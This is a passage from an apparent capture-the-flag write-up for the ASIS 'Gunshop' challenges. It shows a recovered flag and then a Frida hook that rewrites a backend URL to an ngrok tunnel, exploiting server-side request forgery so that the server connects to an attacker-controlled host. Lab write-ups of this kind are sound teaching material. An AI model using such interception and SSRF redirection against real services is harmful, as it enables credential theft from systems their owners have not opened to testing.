 All the texts showed up in plaintext. Including the flag, among all the weapons:

![deciphered](https://i.imgur.com/x7JMudo.png)

Flag: `ASIS{d0Nt_KI11_M3_G4NgsteR}`

## Gunshop II

### Description

>Login to the City Center Shop. A weapon is there, waiting for a worthy warrior to take it!

### Write-up

So, where is the City Center Shop? After the decipher/cipher hook using Frida all was clear and the URL showed up in the last steps.

![citycentershop](https://i.imgur.com/BjBnD9T.png)

Let's access it:

![method_not_allowed](https://i.imgur.com/JHgqTdf.png)

Let's go to Burp and change the method from `GET` to `POST`:

![unauthorized](https://i.imgur.com/e6pvN79.png)

`401` and a Basic Authentication hint. I tried several auths (including the `alfredo` credential from Gunshop) and I received `401` for all the tries. So, where is the credential? No guessing was needed until now, so let's think. How did I find this URL?

The URL was being sent to the backend in the last step. URL being sent to backend... maybe the server is connecting to this URL and this is a `SSRF` vulnerability. So, how to pass my URL to the method as it is using payload encryption? The easiest thing that came to my mind was replace the URL before sending it to the server. I set a `ngrok` and create a replace before the encryption:

```java
    //View before Encrypt + SSRF replace
    m.a.overload("java.lang.String", "java.security.Key").implementation = function (str, key) {
        str = str.replace(/http:\\\/\\\/188.166.76.14:42151\\\/DBdwGcbFDApx93J3/, 'https:\\/\\/a7af3844.ngrok.io')
        var ret = this.a(str, key)
        console.log("Plain: " + str)
        return ret
    };
```

(I spent some time trying to get the replace working because of the backslash and the slash hell :P)

The URL was sent:

![ngrok1](https://i.imgur.com/CrJx46h.png)

And this worked!
